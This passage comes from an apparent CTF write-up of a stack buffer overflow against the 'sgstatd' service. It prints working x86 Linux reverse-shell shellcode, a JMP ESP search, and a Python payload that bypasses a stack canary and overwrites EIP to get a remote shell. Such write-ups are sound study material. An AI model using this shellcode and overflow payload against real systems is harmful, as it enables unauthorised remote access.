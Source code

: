 #	Payload size: 68 bytes
    buf =  ""
    buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
    buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
    buf += "\xa8\x01\x43\x68\x02\x00\x40\x72\x89\xe1\xb0\x66\x50"
    buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73"
    buf += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
    buf += "\x0b\xcd\x80"
```


With the shellcode created, EIP had to be set to the location of a ```JMP ESP``` instruction. Finding such an instruction required knowing what it looks like in terms of bytes, and Kali's ```nasm_shell.rb``` script is able to help with that:

```
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > exit
```

```ffe4``` just happened to be part of the canary string ```e4ffffe4```, which ensured that a search for ```ff e4``` within the sgstatd binary would come up with a result:

```
# objdump -d ./sgstatd | grep 'ff e4'
 8049366:	c7 45 fc e4 ff ff e4 	movl   $0xe4ffffe4,-0x4(%ebp)
 80493b2:	81 f2 e4 ff ff e4    	xor    $0xe4ffffe4,%edx
```

With ```ff e4``` being located at both ```0x0804936b``` and ```0x080493b6```, these are the possible values to set EIP to. After adding the newly created shellcode and one of the possible EIP values to ```xpl.py```, the value of the "msg" variable could now be constructed like this:

{% highlight python %}
    buf =  ""
    buf += "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66"
    buf += "\xcd\x80\x93\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x68\xc0"
    buf += "\xa8\x01\x43\x68\x02\x00\x40\x72\x89\xe1\xb0\x66\x50"
    buf += "\x51\x53\xb3\x03\x89\xe1\xcd\x80\x52\x68\x2f\x2f\x73"
    buf += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\xb0"
    buf += "\x0b\xcd\x80"
    shellcode = buf   
    
    msg = 'A' * 103
    msg += '\xe4\xff\xff\xe4' # Canary
    msg += '1111' # EBP
    msg += '\x6B\x93\x04\x08' # EIP 0x0804936b (address #1)
    #msg += '\xB6\x93\x04\x08' # EIP 0x080493b6 (address #2, not used)
    msg += shellcode
{% endhighlight %}

After starting an ncat listener and running the latest version of ```xpl.py```, a reverse shell was received:

<figure>
	<a href="/images/2016-01-sans/ncat0.png"><img src="/images/2016-01-sans/ncat0.png"></a>
	<figcaption></figcaption>
</figure>
```